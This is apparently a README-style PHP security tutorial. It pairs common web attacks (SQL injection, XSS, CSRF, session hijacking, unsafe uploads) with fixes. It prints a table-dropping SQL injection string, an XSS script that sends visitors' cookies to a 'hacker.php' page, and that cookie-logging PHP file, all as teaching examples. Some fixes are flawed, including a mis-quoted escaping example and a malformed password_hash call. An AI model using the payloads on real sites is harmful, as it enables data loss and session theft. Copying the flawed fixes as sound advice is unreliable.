

## * Get Latest PHP
Try to make sure to have the latest PHP versions installed as they come with updates and features that can help prevent major security flaws.


## SQL-Injection
(The following example can be found in the sql-injection folder) <br>
The SQL injection is the most common attack in PHP scripting. A single query can compromise the whole application. In SQL injection attack, the attacker tries to alter the data you are passing via queries. Suppose you are directly processing user data in SQL queries, and suddenly, an anonymous attacker secretly uses different characters to bypass it.
#### Problem: No Escape on Forms
* Let's assume that you create a simple form to take in user data.

``` PHP
<?php
$con = new PDO('mysql:host=localhost;dbname=sql_injection', 'root', ''); // connecting to db

// OR
$con = new mysqli("localhost", "root", "", "sql_injection");

// processing form input
if (isset($_POST['email']))
{
    $email = $_POST['email'];
    $query = $con->query("SELECT * FROM users WHERE email = '{$email}'");
    // for PDO
    if ($query->rowCount())
    {
        echo "found an email address!";    
    }

    // for MYSQL
    if ($query->num_rows)
    {
        echo "found an email address!";    
    }
}


// ... hidden body of the form
```

* The code above can seem normal but it is in fact extremely flawed

##### If I was to execute an sql query attack then I could use the following line:
```
'; DROP TABLE posts; --'
/* translates to the following query:
"SELECT * FROM users WHERE email = ''; DROP TABLE posts; --'");
*/
```
##### Would be enough to drop a table.

##### More examples:

``` PHP
<?php
$sql = "SELECT * FROM users WHERE username = '" . $username . "';
```
The $username can contain altered data which can damage the database including deleting the whole database in the blink of an eye. So, what’s the Fix? PDO. I recommend that you always use prepared statements. PDO helps you in securing SQL queries.

#### Fix:

* Prepare statements or escape strings statements can avoid sql injection.

``` PHP
<?php
// for PDO
$query = $con->prepare("SELECT * FROM users WHERE email = :email ");
$query->execute(array('email'=>$email));

// for MYSQL
$email = $mysqli->real_escape_string($email);
 $con->query("SELECT * FROM users WHERE email = '($email)'");

```
## Errors
Once you have developed the website and deployed on live server. The first thing you must do is disable the display of errors, because  hackers might get same valuable information from the errors.

#### Problem: Stealing Information from Code Errors in Production
* Might sound strange but fatal errors provide information about problems with code that can include sensitive information like the database name, password, username, etc.

* When you go live, make sure to turn PHP errors off. But in test environments errors are encouraged.

#### Fix:

* In php.ini file change the 'display-errors' value to off when in production.
```
display_errors=Off
```

* Can set specific log location:
    ```
    log_errors=On

    error_log=/var/log/httpd/php_scripts_error.log
    ```

OR
* Manually Disable in PHP

``` PHP
<?php
// to check whether errors are enabled
phpinfo();

//remotely changing the settings

error_reporting(0);
ini_set('display_errors', 'Off');


```  

## XSS
Cross site scripting is a type of malicious web attack in which an external script is injected into the website’s code or output. The attacker can send infected code to the end user while browser can not identify it as a trusted script. This attack occurs mostly on the places where user has the ability to input and submit data. The attack can access cookies, sessions and other sensitive information about the browser.

#### Problem: Injecting JS Code
* Let’s look at the example of a GET request which is sending some data through URL: (1)
``` PHP
URL: http://example.com/search.php?search=<script>alert('test');</script>
$search = $_GET['search'] ?? null;
echo 'Search results for '.$search;
```
OR: (2)<br>
(The following example is under the XSS folder)
* Let's assume we have some form in our application. By default the form is not safe from malicious xss attacks.
* Performing the following task: 
``` TEXT
You are getting redirected and hacked!
<script>
window.location =
 'http://localhost/security/xss/hacker.php?cookie='+escape(document.cookie);
</script>
```
When you click submit, each time a user navigates to the comment page, the malicious script will execute directing the user to website that will steal their cookies.

#### Fix:
* Simply employ the htmlspecialchars, and ENT_QUOTES method on the post body to prevent injecting js into the database

    ``` PHP
    (1)
    $search = htmlspecialchars($search, ENT_QUOTES, 'UTF-8');
    echo 'Search results for '.$search;

    (2)
    $body =  htmlspecialchars($_POST['body'], ENT_QUOTES);
    ```

#### Problem: Stealing Cookies
* Can be lethal if combined with a XSS attack, where cookies of users can be stolen (refer back to the xss folder files hacker.php and mycookies.text).  
* Assume that the htmlspecialchars method is not used and XSS problem still exists.
* A more damaging attack would be to redirect any user to a php file that steals cookies

Hacker file that was created to steal cookies

``` PHP
<?php
$cookie = $_GET['cookie'];
file_put_contents('mycookies.text', $cookie);

<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>


    <h1>Page not working</h1>


</body>
</html>
```
If the hacker was to write the following the comment section and submit it to the database then each user accessing the comment section would be redirected to the file that steals their cookies

``` HTML
You are getting redirected and hacked!
<script>
window.location =
 'http://localhost/security/xss/hacker.php?cookie='+escape(document.cookie);
</script>
```
#### Fix:
* When settings cookies make sure that you select the additional options like the secure, httponly, and make it available for a limited time.

``` PHP
<?php
$expires = new DateTime('+1 day');
 setcookie('username', 'msanvarov', $expires->getTimestamp(), '/', null, null, true ); // expires 1 day after initialization

```
## Passwords
#### Problem: Improperly hashing passwords
* Clearly hashing passwords is a safer bet than not hashing passwords at all as hackers can expose sensitive information if passwords are not secured properly. But the idea of using any hashing algorithm is not effective as there are still proper ways of hashing passwords for guaranteed security

* Let's say you have some username and password form that a normal login page would have (example can be found in the password/index.php file)

#### Fix:

* If you are using anything other than the password_hash method provided by php, like sha-1, sha-256, sha-512, md5, you are still risking data theft due to brute force.
(when using password_hash please use without providing your own salt)

``` PHP
// Create the hash on account creation
<?php
$password = "securedpass";
password_hash($password, PASSWORD_BCRYPT, [12]);

// Verifying password on Login
<? password_verify($inputedPass, $db_password);
```
## Directories
#### Problem: Not hiding directory

* If you don't restrict access to certain directories in your program, then assets, such as js, css, images can be viewed by anyone.
* That can open your code up to vulnerabilities developed by hackers that bypass certain features/services that you may provide.

#### Fix:
* Create .htaccess files to restrict access
* Write the following code inside the .htaccess file (will forbid directory traversal):
```
Options -Indexes
```

## Cross site request forgery XSRF/CSRF
The CSRF attack is quite different to XSS attacks. In CSRF attack, the end user can perform unwanted actions on the authenticated websites and can transfer malicious commands to the site to execute any undesirable action. CSRF can’t read the request data and mostly targets the state changing request  by sending any link or altered data in HTML tags. It can force the user to perform state changing requests like transferring funds, changing their email addresses etc.

#### Problem: CSRF Attacks

* Let's say someone is sending money to another account thorugh a GET request, the following url will be:

```
GET http://bank.com/transfer.do?acct=TIM&amount=100 HTTP/1.1
```
Now if someone wants to exploit the web application they will change the URL with name and amount like this
```
http://bank.com/transfer.do?acct=Sandy&amount=100000
```
Now this URL can be sent via email in any file, Image etc and the attacker might ask you to download the

file or click on the image. And as soon as you do that, you instantly end up with sending huge amount of money you never know about.

#### Fix:

* When performing data manipulations, make sure to make functions like deleting, creating, inserting, etc. as ajax requests so that a hacker can't just manipulate the html to cause harm.  

* Plus, you can check for the REQUEST type and make sure that it is a POST request.

1) Insert a hidden value-token into the form:
``` HTML
<input type="hidden" name="_token" value="<?php echo $_SESSION['_token'] ?>">
```
2) Generate a token for each session
``` PHP
<?php
$_SESSION['_token'] = bin2hex(openssl_random_pseudo_bytes(16));
```
3) Check if request is POST and token is passed
```PHP
<?php
if($_SERVER['REQUEST_METHOD'] === 'POST'){
    if(!isset($_POST['_token']) || ($_POST['_token'] !== $_SESSION['_token'])){

        die("INVALID TOKEN");

    }
}
```

## Session

#### Problem: Session Hijacking
Session hijacking is a particular type of malicious web attack in which the attacker secretly steals the session ID of the user. That session ID is sent to the server where the associated $_SESSION array validates its storage in the stack and grants access to the application. Session hijacking is possible through an XSS attack or when someone gains access to the folder on a server where the session data is stored.

#### Fix:
To prevent session hijacking always bind sessions to your IP address to:
```
$IP = getenv ( "REMOTE_ADDR" );
```
Please refer to [this article](https://stackoverflow.com/questions/15699101/get-the-client-ip-address-using-php) for more information.

Furthermore:
* use enough random input for generating the session ID (see session.entropy_file, session.entropy_length, and session.hash_function)
* use HTTPS to protect the session ID during transmission
* store the session ID in a cookie and not in the URL to avoid leakage though Referer (see session.use_only_cookies)
* set the cookie with the HttpOnly and Secure attributes to forbid access via JavaScript (in case of XSS vulnerabilities) and to forbid transmission via insecure channel (see session.cookie_httponly and session.cookie_secure)
* regenerate the session ID while invalidating the old one (see session_regenerate_id function) after certain session state changes (e. g. confirmation of authenticity after login or change of authorization/privileges) and can be done periodically to reduce the time span for a successful session hijacking attack.

## File Uploading

#### Problem: Malicious Files Being Uploaded
File uploading is a necessary part of any user data processing application. Files can be used for XSS attacks by providing malicious JS code.

#### Fix:   
* Make sure that the POST request in the <form> tag contains the property enctype=”multipart/form-data”.
* Validate the file type to filter for JS, or other programming language files.

``` PHP
<?php
$finfo = new finfo(FILEINFO_MIME_TYPE);
$fileContents = file_get_contents($_FILES['some_name']['tmp_name']);

$mimeType = $finfo->buffer($fileContents);

```
When using a framework such as CI or Laravel, developers get the luxury of having pre-defined methods to validate files.

* Proper Implementation Code Samples:

HTML:
``` HTML
<form method="post" enctype="multipart/form-data" action="upload.php">

   File: <input type="file" name="pictures[]" multiple="true">

   <input type="submit">

</form>
```
PHP:
``` PHP
<?php
foreach ($_FILES['pictures']['error'] as $key => $error) {

   if ($error == UPLOAD_ERR_OK) {

       $tmpName = $_FILES['pictures']['tmp_name'][$key];

       $name = basename($_FILES['pictures']['name'][$key]);

       move_uploaded_file($tmpName, "/var/www/project/uploads/$name");

   }

}
```
Properly declaring the UPLOAD_ERR and basename() may prevent directory traversal attacks, but few other validations – like file size, file rename and store uploaded files in private location – are also required to strengthen the security of the applications.


## SSL Certificates For HTTPS
All the modern browsers like Google Chrome, Opera, Firefox and others, recommend to use HTTPS protocol for web applications. HTTPs provides a secured and encrypted accessing channel for untrusted sites. You must include HTTPS by installing SSL certificate into your website. It also strengthens your web applications against XSS attacks and prevents the hackers to read transported data using codes.

References:
https://www.cloudways.com/blog/php-security/#securityissues
